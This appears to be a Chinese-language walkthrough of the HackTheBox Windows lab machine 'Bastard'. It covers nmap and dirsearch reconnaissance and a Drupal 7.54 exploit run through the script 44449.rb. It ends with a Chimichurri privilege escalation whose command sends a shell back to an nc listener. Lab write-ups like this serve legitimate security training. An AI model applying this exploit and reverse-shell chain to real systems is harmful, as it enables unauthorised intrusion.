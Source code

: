 ```yaml
---
title: Hackthebox::Bastard
date: 2021/12/12
tags: [walkthrough, hackthebox]
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_13.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_13.jpg
---
```


# Bastard

- **Bastard是hackthebox上一台难度中等的windows靶机**

### 信息收集

- nmap进行端口扫描，首先扫描前100个容易受到攻击的端口

![0.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.9.png)

- nmap进行更细致的扫描

![1](https://herozql.oss-cn-beijing.aliyuncs.com/main/1.png)

- nmap扫描是否存在漏洞

![2](https://herozql.oss-cn-beijing.aliyuncs.com/main/2.png)

- 至此，nmap向我们反馈了有用的信息：

```
80 http
135 msrpc
49154 open unknow
```

- 登录80端口，查看网页信息

![0.1](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.1.png)

- 我们从网页底部可以知道这个CMS是drupal系统，但是我们不知道他的具体版本
- 接下来使用dirsearch进行目录扫描，我尝试使用gobuster 进行扫描，但是结果并能使人满意，可能这次并不适用于用gobuster扫描，有时候最好同时使用这两个工具进行扫描，并且更换不同的字典然后进行多次扫描，可能会费时费力，但是收集有用的信息对我们来说是非常重要的

``` 
dirsearch -u http://10.129.189.21 -x 403 -t 200
```

![0.15](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.15.png)

- 我们发现了许多文件，其中CHAGELOG.txt文件中有这CMS的版本信息，我们可以查看到

![0.2](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.2.png)

- 当然，我也参考了别人的walkthrough，他们扫描出了/rest 文件夹，我试着使用它们的字典以及工具进行扫描，扫描时间实在太长，而且我们完全可以不使用 /rest 文件就能达到我们的渗透目的
- 接下来使用searchsploit 对 drupal 7.54 版本进行扫描

![3.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/3.9.png)



### 漏洞利用

- 使用 44449.rb 脚本

![4](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.png)

![5](https://herozql.oss-cn-beijing.aliyuncs.com/main/5.png)

![4.5](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.5.png)

- 我们得到了一个shell，这是我在参考了许多walkthrough后得到的最快捷的方式

- 查看系统信息

![6](https://herozql.oss-cn-beijing.aliyuncs.com/main/6.png)



### 权限提升

- 下载使用[Chimichurri](https://github.com/mxrmiss/Chimichurri)脚本

![7](https://herozql.oss-cn-beijing.aliyuncs.com/main/7.png)

- 在windows靶机中接收脚本文件

![8](https://herozql.oss-cn-beijing.aliyuncs.com/main/8.png)

- 本地机器nc监听端口
- 靶机上使用脚本文件

```
chimichurri.exe ip port
```

- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

![9](https://herozql.oss-cn-beijing.aliyuncs.com/main/9.png)

- 结束